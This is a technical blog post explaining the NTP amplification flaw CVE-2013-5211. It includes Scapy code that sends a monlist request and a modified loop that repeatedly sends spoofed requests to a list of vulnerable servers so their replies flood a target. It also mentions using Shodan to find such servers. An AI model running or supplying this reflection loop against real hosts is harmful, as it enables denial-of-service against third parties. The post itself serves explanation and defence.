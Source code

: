 ```yaml
---
title: "A look at NTP Traffic Amplification (CVE-2013-5211)"
date: 2019-10-20
toc: true
toc_label: "Table of Contents"
categories:
  - blog
tags:
  - Network Security
  - NTP Amplification
  - Scapy
---
```


# Introduction
In a previous [post][dos], we had a look at some low-level DoS attacks. In this post, we will take a look at CVE-2013-5211, which uses vulnerable NTP servers to cause DoS.

# NTP
The Network Time Protocol is a protocol designed to synchronize the clocks of computers over a network. This is the protocol that all your devices use to get the correct time for your timezone. 

In this post, we are concerned with the mode 7 packet, which is used exchanging data between an NTP server and a client for purposes other than time synchronization, e.g., monitoring, statistics gathering, and configuration. It has the following format:

![NTP-Mode-7-Message-Format](../../assets/images/ntp-amplification/ntp_priv_format.png)

Some of the various request codes are:

1. REQ_PEER_LIST
2. REQ_PEER_STATS
3. REQ_CONFIG
4. REQ_MON_GETLIST_1 

# NTP Traffic Amplification
Of the various request codes, the one we are interested in today is the REQ_MON_GETLIST or REQ_MON_GETLIST_1. 

Sending a request, with either of those codes, to a vulnerable NTP server will result in the server responding with the most recent interactions of it with the last 600 hosts. The responses include the IP addresses of hosts, source port used, NTP version, and the mode. 

This issue affects server versions before 4.2.7p26. To search for vulnerable servers, I looked up the servers running ntpd 4.2.6 on shodan.

Now to test this, I have written the following python code, using the NTPPrivate class of scapy. 

```python
ip = IP(dst = ntp_ip)
udp = UDP(sport = RandShort(), dport = 123)
ntp = NTPPrivate(mode=7, implementation = "XNTPD", request_code="REQ_MON_GETLIST_1")

# Send the request to the NTP server
packet = ip/udp/ntp
send(packet)
```

Running the above code and looking at the request and responses in Wireshark, we can see the following.

![requst-response-1](../../assets/images/ntp-amplification/req_resp_1.png)

There are two issues with this. The first being the information disclosure. Looking at one of the response, we can see the following details being disclosed. 

![requst-response-1](../../assets/images/ntp-amplification/disclosure.png)

The second issue is the size and number of returned packets. For one packet of length 50 sent by us, we received 27 packets, each of length 482. This is a clear amplification of the traffic. Attackers constantly look for such vulnerabilities while trying to DoS a target. 

To attack a target using this vulnerability, all the attacker has to do is send spoofed requests by changing the source IP address. All the responses are then sent to the target, which can overwhelm it. 

The above code can be modified in the following way to target hosts for an amplification attack.

```python
# Create the NTP request
ip = IP(src = g_target_ip)
udp = UDP(sport = RandShort(), dport = 123)
ntp = NTPPrivate(mode=7, implementation = "XNTPD", request_code="REQ_MON_GETLIST_1")

while True:
  # Send the request to each of the NTP servers
  for ntp_ip in g_ntp_servers:
    ip.dst = ntp_ip
    packet = ip/udp/ntp
    send(packet)
```

The code takes in a list of vulnerable servers, and continuously sends each of them spoofed NTP requests. Now all the responses are received by the target instead of our machine.

That's it for this post. The entire script is available on my github [page][page].

# Disclaimer
The attacks mentioned on any posts on my website are to be tested at your own risk. Please do not use them without the permission of the target host. I will not be responsible for any damage caused by running them.  

[dos]: https://fsec404.github.io/blog/Introduction-to-a-few-network-attacks/
[page]: https://github.com/venkat-abhi/network-attacks/